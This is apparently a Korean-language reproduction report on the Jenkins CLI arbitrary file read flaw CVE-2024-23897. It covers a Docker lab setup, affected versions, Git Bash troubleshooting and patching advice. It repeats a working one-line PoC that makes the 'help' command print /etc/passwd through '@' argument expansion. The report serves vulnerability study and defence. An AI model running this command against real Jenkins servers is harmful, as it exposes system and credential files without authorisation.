



# Jenkins CLI 임의 파일 읽기 취약점 보고서 (CVE-2024-23897)

## Contributors

- [박형진(@hamzgi)](https://github.com/hamzgi)

## 1. 취약점 요약

- 취약점명: Jenkins CLI 임의 파일 읽기(Arbitrary File Read) 취약점
- CVE 번호: CVE-2024-23897
- 위험도 점수 (Risk Score): 7.5 (High) / 9.8 (Critical, 조건에 따라 RCE 가능)
- 개요: Jenkins 명령어 라인 인터페이스(CLI) 파서가 파일 경로 앞에 @ 문자가 붙었을 때 해당 파일의 내용을 인자로 자동 치환하는 기능(args4j 라이브러리 특징)을 기본 활성화하여 발생합니다. 이를 통해 인증받지 않은 원격 공격자가 Jenkins 서버 내부의 임의 파일을 무단으로 읽거나 시스템 권한을 탈취할 수 있습니다.

---

## 2. 환경 구성

본 취약점 재현 환경은 외부 의존성 및 설정 유실 우려가 없는 공식 젠킨스 아카이브 이미지를 기반으로 단일 `docker-compose.yml` 사양으로 구축되었습니다. 이에 따라 임의의 컴퓨터 환경에서도 별도의 수정 없이 동일한 결과가 독립적으로 재현(Reproducible) 가능합니다.

- 가상화 플랫폼: Docker Desktop (WSL2 Linux 커널 기반)
- 대상 이미지: jenkins/jenkins:2.441 (취약 패치 직전 오피셜 버전)
- 포트 매핑: 호스트의 8080 포트를 매핑하여 복잡한 설정 오설정(Misconfiguration) 유도 없이 소프트웨어 자체의 코어 결함만으로 즉시 동작하도록 구성했습니다.

---

## 3. 취약 조건

1. 대상 버전: Jenkins 주 버전 2.441 이하, 장기 지원(LTS) 버전 2.426.2 이하
2. 설정 조건: 별도의 부가 설정 없이, 취약한 버전의 젠킨스가 구동 중이고 외부에서 웹 포트(8080)에 접근할 수 있다면 사양에 의해 즉시 악용 가능합니다.

---

## 4. 재현 절차

1. 취약 환경 구동
   ```bash
   cd Jenkins/CVE-2024-23897
   docker compose up -d
   ```
2. 공식 CLI 클라이언트 다운로드
   ```bash
   curl -O http://localhost:8080/jnlpJars/jenkins-cli.jar
   ```



3. 공격 수행 (크로스 플랫폼 완전 호환 명령어)
   Windows 환경(Git Bash / MINGW64) 구동 시 슬래시(/) 경로가 시스템 설치 경로로 왜곡 변환되는 현상을 원천 방지하기 위해 `MSYS_NO_PATHCONV=1` 환경변수를 전치하여 대상 컨테이너 내부의 리눅스 핵심 계정 정보 파일(/etc/passwd) 로드를 수행합니다.
   ```bash
   MSYS_NO_PATHCONV=1 java -jar jenkins-cli.jar -s http://localhost:8080/ help "@/etc/passwd"
   ```

---

## 5. 환경별 트러블슈팅 (Windows / Git Bash 경로 왜곡)

본 취약점을 Windows 환경의 Git Bash(MINGW64) 터미널에서 기본 명령어로 재현 시, 아래와 같이 호스트 OS의 환경 결함으로 인해 공격이 정상적으로 수행되지 않는 현상이 발생합니다.

### 1) 증상 및 원인

- **현상**: `java -jar jenkins-cli.jar -s http://localhost:8080/ help "@/etc/passwd"` 실행 시, 타겟 컨테이너 내부의 파일이 아닌 `ERROR: No such file: C:/Program Files/Git/etc/passwd`와 같이 로컬 Git 설치 경로를 참조하며 실패함.
- **원인**: Git Bash 환경의 POSIX 경로 자동 변환(Path Conversion) 기능이 슬래시(`/`) 기호를 감지하여 윈도우 절대 경로로 강제 왜곡한 뒤 젠킨스 서버로 전송하기 때문입니다.



### 2) 해결 방안

명령어 전면에 `MSYS_NO_PATHCONV=1` 환경변수를 선언하여 터미널의 임의 경로 변환을 차단함으로써, 서버 단에 순수한 `@/etc/passwd` 문자열이 가공 없이 전달되도록 조치하여 크로스 플랫폼 재현성을 확보하였습니다.

---

## 6. PoC 코드 및 메커니즘

본 취약점은 시스템 내부의 특정 스크립트 파일 형식이 아닌, Jenkins CLI의 파싱 결함을 유도하는 원격 인자 삽입 명령어 자체가 공격 소스 코드(PoC)로 동작합니다.

```bash
# 핵심 PoC 메커니즘 구문
java -jar jenkins-cli.jar -s http://localhost:8080/ help "@/etc/passwd"
```

## 7. 실행 결과 분석

공격 수행 결과, Jenkins 서버 관리자 인증을 전혀 거치지 않았음에도 불구하고 도커 컨테이너 내부 리눅스 운영체제의 핵심 시스템 계정 정보 파일인 /etc/passwd 내용(root:x:0:0..., daemon:x:1:1...)이 CLI 구문 에러 응답 패킷(ERROR: Too many arguments:...) 내에 강제로 포함되어 무단으로 탈취 및 노출되는 것을 확인하였습니다.



---

## 8. 대응 방안

1. 보안 업데이트 수행: 취약점이 공식 패치된 안전한 최신 버전(Jenkins 2.442 이상, LTS 2.426.3 이상)으로 즉각 업그레이드를 수행합니다.
2. CLI 기능 임시 비활성화: 즉각적인 업데이트가 불가능한 환경일 경우, 스크립트 콘솔 등을 통해 Jenkins 내부의 CLI 명령 처리를 담당하는 엔드포인트를 주석 처리하거나 관련 옵션을 차단하여 공격 경로를 원천 제거합니다.
